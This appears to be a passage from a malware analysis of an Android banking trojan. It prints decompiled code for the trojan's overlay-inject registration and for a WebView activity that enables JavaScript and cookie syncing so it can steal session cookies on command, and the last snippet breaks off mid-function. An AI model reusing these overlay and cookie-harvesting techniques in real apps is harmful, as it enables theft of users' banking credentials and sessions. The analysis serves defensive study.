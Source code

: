 
```cs
private final void scanInject(Command command0, WorkerService workerService0) {
        Log.d("INJCTS - scan", String.valueOf(command0.getInjectlist()));
        for(Object object0: (command0.getInjectlist() == null ? CollectionsKt.emptyList() : command0.getInjectlist())) {
            Inject inject0 = (Inject)object0;
            workerService0.getPreferences().addInject(inject0);
            AppKt.log$default(this, inject0 + " ENABLED", null, null, 6, null);
        }
    }
```

This how malware perform overlay attack. And the malware will try to steal `cookie` using `getCookie` command -which we will explain- using `cookieManager`. 


```cs
 protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        this.getWindow().requestFeature(8);
        ActionBar actionBar0 = this.getActionBar();
        if(actionBar0 != null) {
            actionBar0.hide();
        }

        this.setTitle("");
        try {
            this.setContentView(0x7F0B0022);
            View view0 = this.findViewById(0x7F0800B8);
            Intrinsics.checkNotNullExpressionValue(view0, "findViewById(R.id.web_view)");
            WebView webView0 = (WebView)view0;
            webView0.getSettings().setJavaScriptEnabled(true);
            String s = null;
            webView0.setLayerType(2, null);
            String s1 = this.getIntent().getStringExtra("link");
            Log.i("INJECT_URL", Intrinsics.stringPlus("", s1));
            boolean z = this.getIntent().getBooleanExtra("getCookie", false);
            this.packet = this.getIntent().getStringExtra("packet");
            StringBuilder stringBuilder0 = new StringBuilder().append("Web activity started. Navigate to: ");
            if(s1 != null) {
                s = s1.toString();
            }

            AppKt.log$default(this, stringBuilder0.append(s).append(". Get cookie: ").append(((boolean)(((int)z)))).toString(), null, null, 6, null);
            CookieManager cookieManager0 = CookieManager.getInstance();
            CookieSyncManager.createInstance(this.getApplicationContext());
            if(Build.VERSION.SDK_INT >= 21) {
                cookieManager0.setAcceptThirdPartyCookies(webView0, true);
            }
            else {
                cookieManager0.setAcceptCookie(true);
            }

            cookieManager0.acceptCookie();
            CookieSyncManager.getInstance().startSync();
            Intrinsics.checkNotNullExpressionValue(cookieManager0, "cookieManager");
            this.setClient(webView0, ((boolean)(((int)z))), cookieManager0);
            this.setChromeClient(webView0);
            webView0.getSettings().setDomStorageEnabled(true);
            webView0.addJavascriptInterface(new BrowserActivity.onCreate.1(this), "Android");
            webView0.addJavascriptInterface(new BrowserActivity.onCreate.2(), "recorder");
            if(s1 != null) {
                webView0.loadUrl(s1);
```